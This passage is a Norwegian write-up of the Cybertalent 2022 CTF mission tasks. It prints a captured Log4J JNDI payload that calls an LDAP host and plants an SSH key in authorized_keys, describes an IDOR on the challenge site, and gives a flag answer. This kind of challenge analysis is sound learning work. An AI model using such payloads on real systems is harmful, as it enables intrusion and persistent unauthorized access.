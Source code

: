 ﻿# Cybertalent-2022

Cybertalent er en årlig CTF holdt av Etteretningstjenesten. Den varer normalt i én måned, og inneholder 3 kategorier:
1. Grunnleggende
2. Oppdrag
3. Utfordringer

Denne writeup'en tar for seg oppdraget. Konteksten rundt oppdraget vil du finne [her](context).

---

## 2_01 - pcap_fil

Vi har mottatt ei [PCAP-fil](context/COMPROMISE_PWR-WS-CAF5DB.pcap) med nettverkstraffik fra angrepet.
Når vi åpner den i Wireshark er det en HTTP pakke som skiller seg ut:

```bash
GET / HTTP/1.1
Host: pwr-07-ws-caf5db
Accept: */*
X-Flag: caf5db3e4479b9c3dcb91e43ef9aa497
User-Agent: ${jndi:ldap://10.0.30.98:1389/Basic/Command/Base64/ZWNobyBzc2gtZWQyNTUxOSBBQUFBQzNOemFDMWxaREkxTlRFNUFBQUFJTVRnYnlrZW1wZEFaNEZhaHpMUit0c2NrdFNsaUt0RWR3Wk9sWllXQkhxQyA%2bPiAuc3NoL2F1dGhvcml6ZWRfa2V5cw==}
```

Den inneholder både et flagg og en indikator på en utnyttelse av en Log4J-svakhet. Vi kommer tilbake til sistnevnte på 2.06.

```text
Kategori: 2. Oppdrag
Oppgave:  2.01_pcap
Svar:     caf5db3e4479b9c3dcb91e43ef9aa497
Poeng:    10

Gratulerer, korrekt svar!
```

---

## 2.02_anvilnotes

[INTREP](context/INTREP.txt) gir oss en pekepinne mot en nettside som kan nås på ANVILNOTES.CYBERTALENT.NO.
Dette fremstår som en helt vanlig nettside hvor man kan lage bruker, logge inn og lagre notater i skyen.

Om vi lager en testbruker og lager et notat, så kan vi se at hvert notat får en mangesifret unik ID. 
Utifra dette begynte jeg å se etter *Insecure Direct Object References* (IDOR), og kom frem til at https://anvilnotes.cybertalent.no/note/1 gir oss tilgang til et notat skrevet av admin. 
Dette notatet innholder et flagg, og mulige hint om veien videre:

